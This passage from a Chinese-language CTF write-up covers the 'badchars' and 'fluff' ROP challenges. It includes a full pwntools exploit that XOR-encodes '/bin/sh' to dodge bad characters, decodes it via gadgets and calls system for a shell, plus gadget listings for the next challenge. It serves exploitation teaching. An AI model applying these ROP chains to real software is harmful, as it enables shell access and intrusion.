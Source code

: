第 1,2,5 行和前面一样，而第 3-4 行控制寄存器 `r14` 和 `r15` 的值，使得 `r14=2`（`r14b` 即 `r14` 的低 8 位），`r15` 存放我们刚刚写入的被异或的字符串地址，随后进行 8 次异或即可恢复出 `/bin/sh\x00` 来。

```python
from pwn import *

context(arch='amd64', os='linux', log_level='DEBUG')

p = process('./badchars')
elf = ELF('./badchars')

p.recvuntil('>')

bin_sh = 0x026a712d6c6b602d
got_start = 0x601000
pop_r12_r13_ret = 0x400b3b
mov_r13_r12_ret = 0x400b34

pop_r14_r15_ret = 0x400b40
xor_r15_r14b_ret = 0x400b30

pop_rdi_ret = 0x400b39

payload = flat(['a'*0x28, pop_r12_r13_ret, bin_sh, got_start, mov_r13_r12_ret])

for i in range(8):
	payload += flat([pop_r14_r15_ret, 2, got_start+i, xor_r15_r14b_ret])

payload += flat([pop_rdi_ret, got_start, elf.plt['system']])
p.sendline(payload)

p.interactive()
```

## fluff

本题减少了一些 gadget，我们不得不间接地通过寄存器写内存。注意这里用 ROPgadget 很难找到合适的 gadget，需要加个 `--depth` 参数。

```shell
$ ROPgadget --binary fluff --depth 20
```

在众多 gadget 中要找到有用的，我们的思路还是如何去写内存。按照之前经验，还是需要 `mov [reg], reg` 的语句，这里就有一个：

```
0x000000000040084e : mov qword ptr [r10], r11 ; pop r13 ; pop r12 ; xor byte ptr [r10], r12b ; ret
```

但是很不巧，没有 `pop r10; pop r11; ret` 这么好的 gadget 了，我们只能另辟蹊径去控制这两个寄存器。首先我们要把 GOT 表地址放进 `r10`。然而我们连 `xor r10, reg` 这样的语句都没有，非常难受（`xor [r10], reg` 是没有用的，因为无法改变 `r10` 本身）。

但是我们注意到，有这样一个 gadget：

```
0x0000000000400840 : xchg r11, r10 ; pop r15 ; mov r11d, 0x602050 ; ret
```
